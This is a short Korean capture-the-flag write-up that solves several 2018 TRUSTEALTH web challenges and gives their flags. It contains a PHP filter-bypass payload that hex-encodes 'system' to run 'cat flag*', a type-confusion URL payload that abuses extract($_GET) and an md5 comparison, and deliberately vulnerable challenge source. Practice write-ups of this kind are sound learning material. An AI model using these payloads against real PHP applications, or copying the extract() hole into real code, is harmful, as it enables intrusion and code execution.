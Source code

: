필터링 우회해서 system 함수 호출하면 됩니다.

`http://dimitrust.oa.to:8080/trustctf/jail/?code=hex2bin('73797374656d')('cat flag*');`

`FLAG{i think u r good at php}`

# [2018_TRUSTEALTH] \[Web] RedVelvet

```html
    <body>  
        <h1>함수를 실행시켜보자!!!!</h1>
        <img src = "http://cfile22.uf.tistory.com/original/99104F335A0FCB3E2E91CE"/>
        <!--존재 함수 : yeri(), seulgi(), irene(), wendy(), joy()-->
    </body>
```

이유는 모르겠으나 그냥 함수 실행시키면 플래그를 줍니다..

`FLAG{I_1ike_Red_Velvet~!!!!~!~!}`

# [2018_TRUSTEALTH] \[Web] Do you know php trick?

http://dimitrust.oa.to:8080/trustctf/extract/

```php
no hack <?php

include(__DIR__."/lib.php");
extract($_GET);

if ($_SESSION['var'] === $_COOKIE['var'])
{
    echo "no hack";
}

else if ( md5($_SESSION['var']) == md5($_COOKIE['var']) )
{
    echo $flag;
}

show_source(__FILE__);
?>
```

php type confusion 문제 입니다. 조건 맞춰서 input 넣어줍니다.

`http://dimitrust.oa.to:8080/trustctf/extract/?_SESSION[var][]=1&_COOKIE[var][]=`

`TRUST{you_are_php_trick_master}`

# [2018_TRUSTEALTH] \[Pwn] Python shell

input을 넣으면 `eval` 함수를 실행시켜 줍니다.
